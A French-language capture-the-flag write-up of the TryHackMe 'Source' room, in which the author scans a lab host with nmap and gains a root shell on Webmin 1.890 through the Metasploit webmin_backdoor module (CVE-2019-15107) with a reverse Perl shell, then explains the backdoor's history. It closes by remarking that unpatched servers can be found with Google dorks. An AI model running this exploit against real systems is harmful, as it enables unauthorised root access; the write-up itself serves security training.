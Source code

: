 ```yaml
---
title: "Write-up | Source"
date: 2020-07-09T17:06:50+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Ce write-up sera consacré à la room Source, sur [Try Hack Me](https://tryhackme.com).

Synopsis :
> Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

## Reconnaissance

Premier scan de ports avec `nmap` :
```
$ nmap -sV -sC 10.10.119.71 -oN scans/ports.txt
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
2718/tcp  filtered pn-requester2
10000/tcp open     http          MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Pas de serveur web sur le port 80, mais il y a un service que je ne connais pas sur le port 10000, vu le nom du service il est possible que ça soit un serveur web.
En allant sur la page je vois le message :
```
This web server is running in SSL mode. 
```
J'essaie donc en https et tombe sur une page de connection du service Webmin.
Après une recherche rapide, il semblerait qu'il y ai une vulnérabilité assez sévère sur les versions de Webmin < 1.920.

## Exploitation

Un module `metasploit` est disponible pour cette vulnérabilité, je vais l'utiliser.
```
msf5 > use exploit/linux/http/webmin_backdoor
[*] Using configured payload cmd/unix/reverse_perl
msf5 exploit(linux/http/webmin_backdoor) > set lhost 10.8.37.193
lhost => 10.8.37.193
msf5 exploit(linux/http/webmin_backdoor) > set rhost 10.10.119.71
rhost => 10.10.119.71
msf5 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(linux/http/webmin_backdoor) > exploit
```
Il faut penser à mettre l'option SSL à true.

Une fois connecté, je commence par regarder qui je suis :
```
whoami
root
```
:)

Je regarde ensuite le contenu du `/home`, et enfin lire le flag utilisateur :
```
whoami
root
ls /home/dark
user.txt
webmin_1.890_all.deb
cat /home/dark/user.txt
THM{[edited]}
```

puis le contenu de `/root/root.txt` :
```
cat /root/root.txt
THM{[edited]}
```

Voilà :)

## Détails sur la vulnérabilité
La CVE associée à la vulnérabilité que j'ai exploité est la [CVE-2019-15107](https://www.cvedetails.com/cve/CVE-2019-15107/).

La version 1.890 a été publiée avec un backdoor qui n'a pas été vu par les équipes de dévelopement. D'après l'[article publié par Webmin](http://www.webmin.com/exploit.html) à ce sujet, leur serveur de developement a été compromis, et l'attaquant a ajouté au script `password_change.cgi` une vulnérabilité. Le timestamp du fichier a été modifié pour pas que ce changement apparaisse avec la commande `git diff`. Il a été patché quelques temps plus tard mais l'attaquant a pu re-modifier la version 1.900. Webmin est donc définitivement patché pour cette vulnérabilité à partir de la version 1.930.

Au vu de la difficulté, je pense que cette room était surtout pour faire une démonstration de l'importance des mises à jour :)

Je suis sûr qu'avec de simples google dorks, on peut trouver une floppée de serveurs Webmin non patchés.
